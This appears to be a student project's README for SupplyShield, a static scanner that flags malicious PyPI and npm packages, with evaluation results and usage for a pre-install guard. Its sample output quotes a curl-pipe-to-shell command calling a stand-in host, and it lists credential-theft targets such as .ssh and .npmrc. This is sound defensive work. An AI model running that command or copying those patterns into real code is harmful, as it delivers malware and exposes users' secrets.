

<div align="center">

# 🛡️ SupplyShield

### Detecting malicious behaviour in open-source packages *before* you install them

[](https://github.com/PahuldeepSinghSodhi/supplyshield/actions/workflows/tests.yml)


**Pahuldeep Singh Sodhi** · Roll No. 102306051 · Thapar Institute of Engineering and Technology (TIET)<br>
Course: **Cybersecurity for Mobility Systems** · Instructor: **Dr. Rohit Ahuja**

[📄 **Read the article (PDF)**](paper/SupplyShield.pdf) · [🧾 Overleaf source](paper/) · [🧠 How it works](docs/HOW_IT_WORKS.md) · [📊 Full results](eval/results.md) · [🎤 Talk notes](presentation/talk-notes.md)

</div>

---

## 📌 At a glance

| | |
|---|---|
| **Problem** | Attackers poison the open-source packages every app is built from ([event-stream](https://blog.npmjs.org/post/180565383195/details-about-the-event-stream-incident) 2018, [ua-parser-js](https://www.cisa.gov/news-events/alerts/2021/10/22/malware-discovered-popular-npm-package-ua-parser-js) 2021, [XZ Utils CVE-2024-3094](https://nvd.nist.gov/vuln/detail/CVE-2024-3094) 2024). |
| **Gap in existing tools** | `pip-audit`, `npm audit` and Dependabot only ask *"Is this version on a list of known vulnerabilities?"* A brand-new malicious package is on no list, so they report it as clean. |
| **Our approach** | SupplyShield asks *"What does this package's code actually do?"* It statically analyses the code without ever running it. |
| **What's new** | **Attack-chain scoring** (dangerous *combinations* of signals) and **version-diff analysis** (what an update *added*). |
| **Plus known bugs** | `--vulns` also does the pip-audit / npm audit job: it looks the exact version up for **known vulnerabilities and confirmed malware**, so one command covers both new and known threats. |
| **Result** | Synthetic: caught **10/12** test packages; pip-audit and npm audit caught **0/12**. **Real malware:** caught **18/19** real samples, pip-audit/npm audit **0/19**, with fewer false alarms on unseen popular packages than GuardDog (25% vs 35%) and ~100× faster. |

---

## 🎬 Live demo in 60 seconds

```bash
git clone https://github.com/PahuldeepSinghSodhi/supplyshield.git
cd supplyshield
python -m supplyshield scan samples/npm/mal-postinstall-exfil              # steals npm token at install
python -m supplyshield diff samples/pypi/colorlib-1.0 samples/pypi/colorlib-1.1   # poisoned update
```

No installation and no dependencies are needed, just Python 3.11+. For a guided step-by-step demo on Windows:
`powershell -ExecutionPolicy Bypass -File presentation\demo.ps1`

<details open>
<summary><b>Example output: catching a poisoned update</b></summary>

```
Old version 1.0.0: SAFE (0/100)
New version 1.1.0: MALICIOUS (100/100)

Behaviour introduced by update: colorlib 1.0.0 -> 1.1.0 (pypi)
Verdict: [ MALICIOUS ]   Risk score: 100/100   Findings: 3
Attack chains detected:
  >> Install-time command execution: runs system commands during installation

CRITICAL PY-DOWNLOAD-EXEC    setup.py:9  [runs at install, NEW in this version]
         code: os.system('curl -s https://collector.example.invalid/stage2.sh | sh')
         why:  A system command downloads something from the internet and runs it
         immediately (e.g. 'curl ... | sh'). This is how second-stage malware is fetched.
         fix:  Do not install. Nothing in a library should download and run remote scripts.
...
```
</details>

---

## 🏗️ Architecture



| What SupplyShield detects | Why it matters |
|---|---|
| Code that runs **automatically at install time** (`setup.py` hooks, npm `postinstall`) | Most malicious packages strike before you ever use them |
| **Hidden payloads**: base64 decoded then `exec`/`eval`, obfuscated code | Conceals the real code from reviewers |
| **Secret theft**: all environment variables, `~/.ssh`, `.aws/credentials`, `.npmrc` | API keys and tokens are what attackers want |
| **Network and system commands**, including `curl … \| sh` | How stolen data leaves and further malware arrives |
| **Typosquatting**: `reqeusts`, `lodahs` | One typo installs malware |
| **Version diff**: behaviour and dependencies *added* by an update | How event-stream, ua-parser-js and XZ Utils arrived |
| **Known vulnerabilities and known malware** (`--vulns`): CVEs for this exact version, fix versions, confirmed-malware listings | Covers what pip-audit / npm audit find, plus "this update fixes N CVEs" in `diff` |

➡️ The scoring and rules are explained in plain language in **[docs/HOW_IT_WORKS.md](docs/HOW_IT_WORKS.md)**.

---

## 📊 Results

20 labelled, inert test packages (12 malicious, 8 benign; PyPI and npm), same corpus for every tool.

| Tool | Covered | ✅ Detected | ❌ Missed | ⚠️ False alarms | Precision | Recall | Time / package |
|---|---|---|---|---|---|---|---|
| **SupplyShield** | 20 | **10** | 2 | 1 | 0.91 | 0.83 | **6 ms** |
| GuardDog 2.10 | 20 | 10 | 2 | 1 | 0.91 | 0.83 | 4.2 s |
| Bandit 1.9 | 10 (Python) | 3 | 3 | 0 | 1.00 | 0.50 | 0.25 s |
| pip-audit 2.10 | 10 (Python) | 0 | 6 | 0 | – | 0.00 | 0.6 s |
| npm audit 11 | 10 (npm) | 0 | 6 | 0 | – | 0.00 | 1.0 s |

**Key findings**
- 🔴 **pip-audit and npm audit saw nothing.** They said "no known vulnerabilities" even for a package that steals your npm token. They are built for *known* bugs, not new malware.
- 🟠 **Bandit** rated `curl … | sh` inside an install hook as **low** severity. It has no idea the code runs at install time.
- 🟢 **GuardDog** ties on detection with different mistakes. It caught our evasive samples, but missed the typosquats, gives no severity (a harmless `node-gyp` script and a `curl | sh` script look identical), has no version diff, and is ~700× slower.
- 🔁 **Version diff** isolated exactly what both poisoned updates added. No other tool produces this report.

**Honest limits:** the corpus is small and self-built (feasibility, not real-world accuracy); SupplyShield missed 2 deliberately evasive samples. The table above measures **behaviour analysis only**; the optional `--vulns` lookup (added after this evaluation) covers known vulnerable versions. Checked against pip-audit on `requests` 2.19.1, both report the same 5 vulnerabilities with the same fix versions.

Reproduce everything: `python eval/run_eval.py`; per-sample output: [eval/results.md](eval/results.md).

### 🌍 On real packages

Real malware from [Datadog's malicious-packages dataset](https://github.com/DataDog/malicious-software-packages-dataset)
(19 random samples) and 40 of the most-downloaded PyPI and npm packages. Details and safety:
[eval/real](eval/real/results.md).

| | Real malware detected | False alarms on 20 **unseen** popular packages |
|---|---|---|
| **SupplyShield 0.2** | **18 / 19 (95%)**¹ | **5 / 20 (25%)** |
| SupplyShield 0.1 | 17 / 19 (89%) | 8 / 20 (40%) |
| GuardDog 2.10 | 13 / 16 (81%) + 3 timeouts | 7 / 20 (35%) |
| Bandit 1.9 (Python) | 8 / 10 | 9 / 10 |
| pip-audit / npm audit | **0 / 19** | 0 / 20 |

¹ Measured on the same samples that informed the v0.2 fixes, so not independent; the unseen-package figure is.
The first, blind real-data run exposed the false alarms (45% of popular packages); every fix is listed in
[CHANGELOG.md](CHANGELOG.md). Samples are small, so treat these as early evidence, not final accuracy.

---

## 🗂️ Repository map

| Folder | Contents | Show this when explaining… |
|---|---|---|
| [`supplyshield/`](supplyshield/) | The scanner (~1,100 lines, standard library only) | **the code** |
| ↳ [`rules_python.py`](supplyshield/rules_python.py) | Python syntax-tree rules | how detection works |
| ↳ [`rules_npm.py`](supplyshield/rules_npm.py) | npm install-script and JavaScript rules | npm support |
| ↳ [`scoring.py`](supplyshield/scoring.py) | Attack-chain scoring and verdicts | **novelty #1** |
| ↳ [`analyzer.py`](supplyshield/analyzer.py) | Scan and version-diff logic | **novelty #2** |
| ↳ [`advisories.py`](supplyshield/advisories.py) | Known-vulnerability / known-malware lookup (`--vulns`) | the pip-audit / npm audit part |
| ↳ [`guard.py`](supplyshield/guard.py) | Pre-install guard for AI agents, shells and CI | integration |
| [`samples/`](samples/) | 20 inert test packages + labels + generator | the test data |
| [`eval/`](eval/) | Comparison script and results | **the results** |
| [`eval/real/`](eval/real/) | Real-data evaluation: scripts, package list, results (no package files) | **real-world results** |
| [`tests/`](tests/) | 49 unit tests (run automatically on GitHub; vulnerability tests use a fake database, so no internet) | code quality |
| [`paper/`](paper/) | Article [PDF](paper/SupplyShield.pdf), Overleaf source and ready-to-upload zip | **the article** |
| [`presentation/`](presentation/) | Talk script, likely questions, demo script | the presentation |
| [`docs/`](docs/) | Plain-language explanation of the method | answering questions |

---

## ⚙️ Usage

```bash
pip install -e .                                # optional: adds the `supplyshield` command
supplyshield scan <package> [<package> ...]     # folder, .tar.gz/.tgz, .whl or .zip
supplyshield scan <package> --vulns            # + known vulnerabilities / malware (needs internet)
supplyshield scan <package> --json              # machine-readable output
supplyshield diff <old-version> <new-version>   # what did this update add?
supplyshield diff <old> <new> --vulns           # ...and which known vulnerabilities does it fix?
python -m pytest                                # run the unit tests
```

Exit codes `0` safe · `1` suspicious or has known vulnerabilities · `2` malicious, so it can block a CI pipeline.

**About `--vulns`.** This is the pip-audit / npm audit part. SupplyShield looks up the exact name and version in
[OSV.dev](https://osv.dev), the open vulnerability database that pip-audit can use and that includes the GitHub
Advisory Database behind npm audit. It also catches versions listed as confirmed malware (OpenSSF `MAL-` entries).
Duplicate records of the same bug are merged. Known vulnerabilities are shown in their own section and fail the
CI gate, but they do not raise the *malice* score: a bug in an honest package is not malware. This is the only
network feature; only the package name, ecosystem and version are sent, and without the flag SupplyShield stays
fully offline.

### 🤖 Automatic guard for AI coding agents, shells and CI

`python -m supplyshield.guard` sits **in front of install commands**. It recognises `pip`, `uv pip`, `npm`, `yarn`
and `pnpm` installs, fetches each package without installing it, scans it (with `--vulns`), and **blocks the
command (exit 2) unless every package is SAFE**.

**AI coding agent (Claude Code):** add to `.claude/settings.json` so every install the agent runs is checked first:

```json
{"hooks": {"PreToolUse": [{"matcher": "Bash", "hooks": [
  {"type": "command", "command": "python -m supplyshield.guard"}]}]}}
```

The agent receives the block reason and can choose another package. This also protects against packages an AI
*invents* that attackers have registered.

**Shell or CI:**

```bash
python -m supplyshield.guard -- pip install requests==2.31.0 && pip install requests==2.31.0
```

```
SupplyShield blocked this install. Choose another package or version, or ask the user.
BLOCKED fastjsonify 0.1.0: MALICIOUS 100/100
        - PY-INSTALL-HOOK: setup.py replaces a standard installation step with custom code, so that code runs ...
        - PY-SECRET-PATH: The code refers to a credential location (.ssh, id_rsa) such as SSH keys, ...
```

The guard fails closed: if a package can't be fetched as a wheel for scanning, the install is blocked with an
explanation. Set `SUPPLYSHIELD_GUARD_VULNS=0` to skip the online vulnerability lookup.

### Checking a registry package before installing it

Download the package **without installing it**, scan the file, and install that exact file only if it is SAFE:

```bash
# Python: fetch a ready-built wheel only
pip download <name> --no-deps --only-binary :all: -d checks
supplyshield scan checks/<name>-<version>-*.whl
pip install checks/<name>-<version>-*.whl          # only if SAFE

# npm
npm pack <name> --ignore-scripts
supplyshield scan <name>-<version>.tgz
npm install ./<name>-<version>.tgz                 # only if SAFE
```

> ⚠️ **Do not use `pip download --no-binary :all:`** to fetch a source package for checking. To download a
> source package, pip prepares its metadata, which can run the package's own `setup.py`. A malicious package
> would then execute during the "safe" download step. `--only-binary :all:` fetches wheels, which contain no
> install-time code. If a package publishes only a source archive, download the `.tar.gz` file directly from
> its PyPI page instead.

## 🔐 Safety

The test samples imitate real attacks but are **inert**: network addresses use the reserved `.invalid` domain and hidden payloads only print a message. Never install them. See [samples/README.md](samples/README.md).

## 📚 References

1. Ohm et al., *Backstabber's Knife Collection*, DIMVA 2020.
2. Ladisa et al., *SoK: Taxonomy of Attacks on Open-Source Software Supply Chains*, IEEE S&P 2023.
3. Duan et al., *Towards Measuring Supply Chain Attacks on Package Managers*, NDSS 2021.
4. Sejfia & Schäfer, *Practical Automated Detection of Malicious npm Packages*, ICSE 2022.
5. NIST NVD, *CVE-2024-3094* (XZ Utils backdoor), 2024.
6. Datadog Security Labs, *GuardDog*, 2022.

## 📄 License

[MIT](LICENSE) © 2026 Pahuldeep Singh Sodhi
